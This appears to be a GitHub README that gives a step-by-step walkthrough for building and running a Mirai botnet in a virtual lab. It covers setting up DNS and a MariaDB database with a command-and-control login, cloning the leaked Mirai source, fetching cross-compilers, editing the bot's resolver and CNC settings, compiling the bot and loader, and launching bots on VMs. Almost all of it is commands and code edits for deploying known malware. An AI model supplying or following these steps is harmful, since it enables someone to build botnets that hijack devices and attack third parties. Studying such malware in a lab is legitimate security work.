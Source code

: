 # Build-a-Mirai-botnet
In this Experiment, I found a way to build a MIRAI botnet.

An installation guide has been given by Mirai's author:
https://github.com/jgamblin/Mirai-Source-Code/blob/master/ForumPost.md

# *Environment*
1. Fedora27 x64 workstaion with over 16G MEM.
2. Network capabilities.
3. VMware-station or vbox.

# *Requirements*
```bash
dnf install git gcc golang ElectricFence mysql mariadb-server mariadb-common bind bind-utils
dnf groupinstall "Development Tools" -y
dnf install gmp-devel -y
```

## Section 1 Setup dns server
### 1-1 Stop Dns server
```bash systemctl stop named
```
### 1-2 Edit /etc/named.conf
```conf
acl "trusted" {
	192.168.241.1; // Self DNS-server ip
};
options {
	listen-on port 53 { any; };
	listen-on-v6 port 53 { any; };
	directory 	"/var/named";
	dump-file 	"/var/named/data/cache_dump.db";
	statistics-file "/var/named/data/named_stats.txt";
	memstatistics-file "/var/named/data/named_mem_stats.txt";
	allow-query     { any; };

	recursion yes;

	dnssec-enable yes;
	dnssec-validation yes;

	managed-keys-directory "/var/named/dynamic";

	pid-file "/run/named/named.pid";
	session-keyfile "/run/named/session.key";

	/* https://fedoraproject.org/wiki/Changes/CryptoPolicy */
	include "/etc/crypto-policies/back-ends/bind.config";
};

logging {
        channel default_debug {
                file "data/named.run";
                severity dynamic;
        };
};

zone "." IN {
	type hint;
	file "named.ca";
};

include "/etc/named.rfc1912.zones";
include "/etc/named.root.key";

```
### 1-3 Edit /etc/named.rfc1912.zones
```conf
zone "changeme.com" IN {
	type master;
	file "changeme.com";
	allow-update { none; };
};
```
### 1-4 Restart named
```bash
systemctl start named
```

## Section 2 Setup mariadb-server mirai databases
### 2-1 Create mysql root password
```bash
mysqladmin -u root password password
```
### 2-2 Run ./scripts/db.sql
```bash
cat ./scripts/db.sql | mysql -uroot -p
```
### 2-3 Add cnc login account
```mysql
INSERT INTO users VALUES (NULL, 'mirai-user', 'mirai-pass', 0, 0, 0, 0, -1, 1, 30, '');
```

## Section 3 Compile Mirai code
### 3-1 Download the Mirai code
```bash
git clone https://github.com/jgamblin/Mirai-Source-Code.git

wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-armv4l.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-i586.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-m68k.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-mips.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-mipsel.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-powerpc.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-sh4.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-sparc.tar.bz2
wget http://distro.ibiblio.org/slitaz/sources/packages/c/cross-compiler-armv6l.tar.bz2

tar -jxf cross-compiler-armv4l.tar.bz2
tar -jxf cross-compiler-i586.tar.bz2
tar -jxf cross-compiler-m68k.tar.bz2
tar -jxf cross-compiler-mips.tar.bz2
tar -jxf cross-compiler-mipsel.tar.bz2
tar -jxf cross-compiler-powerpc.tar.bz2
tar -jxf cross-compiler-sh4.tar.bz2
tar -jxf cross-compiler-sparc.tar.bz2
tar -jxf cross-compiler-armv6l.tar.bz2

rm *.tar.bz2

mv cross-compiler-armv4l armv4l
mv cross-compiler-i586 i586
mv cross-compiler-m68k m68k
mv cross-compiler-mips mips
mv cross-compiler-mipsel mipsel
mv cross-compiler-powerpc powerpc
mv cross-compiler-sh4 sh4
mv cross-compiler-sparc sparc
mv cross-compiler-armv6l armv6l
```
### 3-2 Make go home DIR
```bash
mkdir ~/go
```
### 3-3 Adding xcompile path in .bashrc
```bash
export PATH=$PATH:/etc/xcompile/armv4l/bin
export PATH=$PATH:/etc/xcompile/armv6l/bin
export PATH=$PATH:/etc/xcompile/i586/bin
export PATH=$PATH:/etc/xcompile/m68k/bin
export PATH=$PATH:/etc/xcompile/mips/bin
export PATH=$PATH:/etc/xcompile/mipsel/bin
export PATH=$PATH:/etc/xcompile/powerpc/bin
export PATH=$PATH:/etc/xcompile/powerpc-440fp/bin
export PATH=$PATH:/etc/xcompile/sh4/bin
export PATH=$PATH:/etc/xcompile/sparc/bin
export PATH=$PATH:/etc/xcompile/armv6l/bin
export PATH=$PATH:/usr/local/go/bin
export GOPATH=$HOME/go
```
*source .bashrc*
```bash
source ~/.bashrc
```
### 3-4 Install GoLang Drivers
```bash
go get github.com/go-sql-driver/mysql
go get github.com/mattn/go-shellword
```
### 3-5 Edit Mirai code
*Edit ./mirai/bot/resolv.c DNS server ip*
```c
struct resolv_entries *resolv_lookup(char *domain)
{
    /*
       Missing code ...
     */
    util_zero(&addr, sizeof (struct sockaddr_in));
    addr.sin_family = AF_INET;
    addr.sin_addr.s_addr = INET_ADDR(192,168,241,1); //Change here
    addr.sin_port = htons(53);

    /*
       Missing code ...
     */
}

```
*Edit ./mirai/cnc/main.go*
```go
const DatabaseAddr string   = "127.0.0.1"
const DatabaseUser string   = "root"
const DatabasePass string   = "password" //Change here
const DatabaseTable string  = "mirai"
```
*Edit ./mirai/cnc/admin.go*
```go
headerb, err := ioutil.ReadFile("/root/Mirai_Code/mirai/prompt.txt") //Change here
```
### 3-6 Compile
```bash
cd ./mirai
./build.sh debug telnet
./build.sh release telnet
cd ../loader
./build.sh
```

## Section 4 Run Mirai Net
### 4-1 Run ./mirai/debug/cnc as root on PC:192.168.241.1
```bash
./mirai/debug/cnc
```
### 4-2 Telnet cnc
```bash
telnet 127.0.0.1
```
### 4-3 Run ./mirai/debug/mirai.dbg as root on VM-PCs
*VM-PC1:192.168.241.108*
*VM-PC2:192.168.241.109*
*VM-PC3:192.168.241.110*

